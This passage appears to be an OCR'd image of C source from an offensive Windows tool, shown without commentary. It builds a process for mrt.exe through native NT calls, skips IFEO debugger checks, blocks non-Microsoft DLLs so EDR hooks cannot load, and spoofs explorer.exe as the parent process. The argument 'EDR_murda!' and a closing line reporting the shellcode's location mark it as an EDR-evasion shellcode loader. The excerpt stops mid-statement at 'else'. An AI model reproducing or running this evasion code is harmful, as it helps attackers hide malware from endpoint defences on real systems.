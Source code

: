 ```

	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\mrt.exe");
	RtlInitUnicodeString(&Params, (PWSTR)L"\"C:\\WINDOWS\\SYSTEM32\\mrt.exe\" /i EDR_murda!");
	// Create the process parameters
	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &ImagePath, NULL, NULL, &Params, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	// Initialize the PS_CREATE_INFO structure
	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	//Skip Image File Execution Options debugger
	CreateInfo.InitState.u1.InitFlags = PsSkipIFEODebugger;

	OBJECT_ATTRIBUTES objAttr = { sizeof(OBJECT_ATTRIBUTES)};
	PPS_STD_HANDLE_INFO stdHandleInfo = (PPS_STD_HANDLE_INFO)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_STD_HANDLE_INFO));
	PCLIENT_ID clientId = (PCLIENT_ID)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE));
	PSECTION_IMAGE_INFORMATION SecImgInfo = (PSECTION_IMAGE_INFORMATION)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(SECTION_IMAGE_INFORMATION));
	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE_LIST));

	// Create necessary attributes
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_CLIENT_ID;
	AttributeList->Attributes[0].Size = sizeof(CLIENT_ID);
	AttributeList->Attributes[0].ValuePtr = clientId;

	AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_IMAGE_INFO;
	AttributeList->Attributes[1].Size = sizeof(SECTION_IMAGE_INFORMATION);
	AttributeList->Attributes[1].ValuePtr = SecImgInfo;

	AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[2].Size = NtImagePath.Length;
	AttributeList->Attributes[2].ValuePtr = NtImagePath.Buffer;

	AttributeList->Attributes[3].Attribute = PS_ATTRIBUTE_STD_HANDLE_INFO;
	AttributeList->Attributes[3].Size = sizeof(PS_STD_HANDLE_INFO);
	AttributeList->Attributes[3].ValuePtr = stdHandleInfo;

	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;

	// Spoof Parent Process Id as explorer.exe
	DWORD trayPID;
	HWND trayWnd = FindWindowW(L"Shell_TrayWnd", NULL);
	GetWindowThreadProcessId(trayWnd, &trayPID);
	HANDLE hParent = OpenProcess(PROCESS_ALL_ACCESS, false, trayPID);
	if (hParent)
	{
		AttributeList->Attributes[5].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
		AttributeList->Attributes[5].Size = sizeof(HANDLE);
		AttributeList->Attributes[5].ValuePtr = hParent;
	}
	else
```

[+]: Shellcode located at c7160
